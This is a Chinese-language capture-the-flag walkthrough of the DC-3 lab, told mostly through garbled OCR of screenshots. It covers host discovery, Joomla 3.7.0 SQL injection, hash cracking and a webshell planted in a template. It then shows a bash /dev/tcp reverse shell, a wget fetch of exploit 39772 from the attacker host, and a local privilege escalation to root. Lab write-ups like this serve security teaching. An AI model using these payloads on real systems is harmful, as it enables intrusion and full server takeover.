








<!-- 这是一张图片，ocr 内容为：KALI-LINUX-2024.2-VMWARE WORKSTATION 文件(月编辑(E)查看(E)选项卡M帮助(H)帮助(H)选项卡M)选项卡M+选项卡M帮助(H)选项卡M帮助(H) KALI-LINUX-2024.2 X 介主页 2 22:43 ROOT@KALI://SHARE/WORDLISTS FILE ACTIONS EDIT VIE FILE ACTIONS EDIT VIEW HELP HASH爆破字典 HASH密文 STING 'GENERIC UNION QLAD [22:34:43] [IN] (ROOT@KALI)-[/USR/SHARE/WORDLISTS] [22:34:44] INI [22:34:45] JOHN --WORDLIST-/USR/SHARE/WORDLISTS/ROCKYOU.TXT /ROOT/JOO.HASH [22:34:46] [INI CREATED DIRECTORY:/ROOT/.JOHN [22:34:46] [INI USING DEFAULT INPUT ENCODING:UTF-8 30 COLUMNS [INI LOADED 1 PASSWORD HASH (BCRYPT [BLOWFISH 32/64 X3]) [22:34:47] O COLUMNS [INI COST 1 (ITERATION COUNT) IS 1024 FOR ALL LOADED HASHES [22:34:48] [INI WILL RUN 4 OPENMP THREADS [22:34:49] 100 COLUMNS (RANDOM NUMBER)-81 TO [22:34:50] INI PRESS ANY OTHER KEY FOR STATUS 爆破得到的密码 INI SIN [22:34:51] 0.5102G/S 73.46P/S 73.46C/S 73.46C/S MYLOVE...SANDRA [22:34:52] 1G 0.00:00:01  DONE (2024-08-23  22:43) [22:34:52] THE CRACKED PASSWORDS RELIABLY OPTION TO DISPLAY USE THE SHOW Y ALL OF TH [22:34:53] INI TO 60 COLUMNS' SESSION COMPLETED. LUMBER)-41 TO 60 COLUMNS' [22:34:54] UNION INI QUERY -(ROOT@KALI)-[/USR/SHARE/WORDLISTS] [22:34:55] O80 COLUMNS 61 TO 80 COLUMNS' [22:34:55] UNION QUERY (RANDOM NUMBER) [22:34:56] [INFOJ CESTLIG  MYCQL ONLUN 4 SHININ103 AAT ON TO - /TON\ ATANH NOTNO -->

获取目标主机的ip地址

<!-- 这是一张图片，ocr 内容为：FILE EDIT VIEWHELP ACTIONS (ROOTS KALI)-[~]  ARP-SCAN -I ETH1 -L INTERFACE: ETH1, TYPE: EN10MB, MAC: 00:29:FA:E3:66, IPV4:1PV4:168.56. STARTING ARP-SCAN 1.10.0 WITH 256 HOSTS (HTTPS://GITHUB.COM/ROYHITLS/ARP)))) N) (UNKNOWN: LOCALLY ADMINISTERED) 192.168.56.1 0A:00:27:00:00:0E I PCS SYSTEMTECHNIK GMBH 192.168.56.100 08:00:27:E1:61:AF 08:00:27:27:6D:72 192.168.56.101 PCS SYSTEMTECHNIK GMBH -->

Goby：扫描资产

<!-- 这是一张图片，ocr 内容为：扫描 学习治抑郁 返回 登录 漏洞 资产 端口 存活IP 2 6 0 软件厂商 硬件 硬件厂商 软件 TWITTER PHP 20% OTHER JQUER.. UBUNT.. 20% 20% VMWARE,INC. VMWAR... DEBIA. THE JQUERY FOUNDATION. 20% 20% PUBLIC INTEREST, INC. 麻漏洞 端口 资产类型 80 支撑系统 192.168.56.101 系统软件 192.168.56.102 企业应用 川京G 重扫 查看资产 查看漏洞 -->

发现joomla框架

找出版本

搜历史漏洞

漏洞利用

一句话木马

<!-- 这是一张图片，ocr 内容为：您正在共享屏幕 结束共享 Q一句话木马-搜索 WEB安全-一句话木马 X JOOMLA 3.7.0(CVE-2CX TEMPLATES:CUSTOMIS X X JOOMLA 3.7 SQL INJEC X 192.168.56.101/ADMINISTRATOR/INDEX.PHP?OPTION-COM TEMPLATES&VIEN 女民 搜索 双 SYSTEM MENUS USERS 中国蚁剑 ANTSWORD数据编辑窗口 SAVE & CIC SAVE LUIUING MING MUA.PIP 数据管理(1) 分类目录(1) CSS 更新时间 A重命名 物理位置 添加 URL地址 创建时间 IP地址 口默认分类 局域网对方和您在同一内部网24/08/2410:53:12 2024/08/2410:53:12 HTTP://192.168.56.101/INDEX.PHP 192.168.56.101 HTML IMAGES 编辑数据(HTTP://192.168.56.101/INDEX.PHP) X口X JAVASCRIPT *清空 图保存 LANGUAGE HTTP://192.168.56.101/INDEX.PHP URL地址 COMPONENT.PHP 连接密码 ERROR.PHP 编码设置 UTF8 PHP 连接类型 D INDEX.PHP 编码器 JSSTRINGS.PHP DEFAULT TEMPLATEDETAILS.XML CHR TEMPLATE_PREVIEW.PNG BASE64 TEMPLATE.THUMBNAIL.PNG ADMINISTRAT VISITORS VIEW SITE -->

反弹shell

web中编辑webshell

kali监听

<!-- 这是一张图片，ocr 内容为：192.168.56.101/ADMINISTRATOR/INDEXPHP?OPTION-COM TEMPLATES&VIE 双 EXTENSIONS USERSMENUSCONTENTENT HELP COMPONENTS SYSTEM TEMPLATES:CUSTOMISE(BEEZ3) D SAVE SAVE & CLOSE RENAME FILE COPY TEMPLATE MANAGE FOLDERS CIOS DELETE FILE TEMPLATE PREVIEW NEW FILE EDITOR TEMPLATE DESCRIPTION CREATE OVERRIDES EDITING FILE "/1.PHP" IN TEMPLATE"BEEZ3". PRESS F10 TO TOGGLE FULL SCREEN EDITING. CSS <?PHP 123 SH -I >&/DEV/TCP/192.168.56.102/444  0>81'); HTML SYSTEM("BASH-C'BASH-I > KI IMAGES JAVASCRIPT LANGUAGE 1.PH J COMPONENT.PHP ERROR.PHP 1INDEX,PHP -->

<!-- 这是一张图片，ocr 内容为：ONLINE-REVERSE SHELL GENEREX 新标签贝 TEMPLATES:CUSTOMISE(BEEZ3 QX个个 192.168.56.101/TEMPLATES/BEEZ3/1.PHP 搜 访问URL,制造反弹 -->

<!-- 这是一张图片，ocr 内容为：(ROOT&KALI)-[~] -# NC -NVLP 444 LISTENING ON [ANY] 4444 CONNECT TO [192.168.56.102] FROM (UNKNOWN) [192.168.56.101] 40434 INAPPROPRIATE IOCTL FOR DEVICE BASH:CANNOT SET TERMINAL PROCESS GROUP (1176): BASH:NO JOB CONTROL IN THIS SHELL WWW-DATA@DC-3:/VAR/WWW/HTML/TEMPLATES/BEEZ3$ CD /TM D /TMP KALI监听 CD/TMP WWW-DATAQDC-3:/TMP$ WGET HTTP://192.168.56.101:8080/39772.ZIP WGET HTTP://192.168.56.101:8080/39772.ZIP --2024-08-24 14:03:02-- HTTP://192.168.56.101:8080/39772.之IP CONNECTING TO 192.168.56.101:8080... FAILED: CONNECTION REFUSED. WWW-DATAQDC-3:/TMP$ WGET HTTP://192.168.56.102:8080/39772.ZIP WGETHTTP://192.168.56.102:8080/39772.ZIP -2024-08-24 14:06:44-- HTTP://192.168.56.102:8080/39772.ZIP CONNECTING TO 192.168.56.102:8080... CO CONNECTED. HTTP REQUEST SENT, AWAITING RESPONSE... 200 OK 仅将文本发送到当前选项卡 -->

<!-- 这是一张图片，ocr 内容为：SUIDHELPER.C /COMPILE.SH WWW-DATA@DC-3://TMP/39772/EBPF_MAPFD_DOUBLEPUT EXPLOITS /COMPILE.SH DOUBLEPUT.C:IN FUNCTION 'MAKE_SETUID': DIFFERENT SIZE [-WPOIN DOUBLEPUT.C:91:13:WARNING: CAST FROM POINTER TO INTEGER OF TER-TO-CAST] ,INSNS (_ALIGNED_U64) INSNS DIFFERENT SIZE [-WPOIN DOUBLEPUT.C:92:15: WARNING: CAST FROM POINTER TO INTEGER OF DI TER-TO-CAST] .LICENSE _ALIGNED_U64)" WWW-DATAQDC-3://TMP/39772/EBPF MAPFD DOUBLEPUT EXPLOITS DOUBLEP /DOUBLEPUT SUID FILE DETECTED, LAUNCHING ROOTSHELL... WEHAVE ROOT PRIVS NOW... 执行EXP FUSE:MOUNTPOINT IS NOT EMPTY FUSE: IF YOU ARE SURE THIS IS SAFE, USE THE 'NONEMPTY' MOUNT OPTION DOUBLEPUT:SYSTEM() FAILED DOUBLEPUT:CHILD QUIT BEFORE WE GOT A QOOD FILE* 仅将文本发送到当前选项卡 SSH://ROOT@192.168.188128:22 # 121X21 SSH2 XTERM -->

成功取得root权限

<!-- 这是一张图片，ocr 内容为：ID I UID-O(ROOT) GID-0(ROOT) GROUPS-O(ROOT),33(WWW-DATA) -->

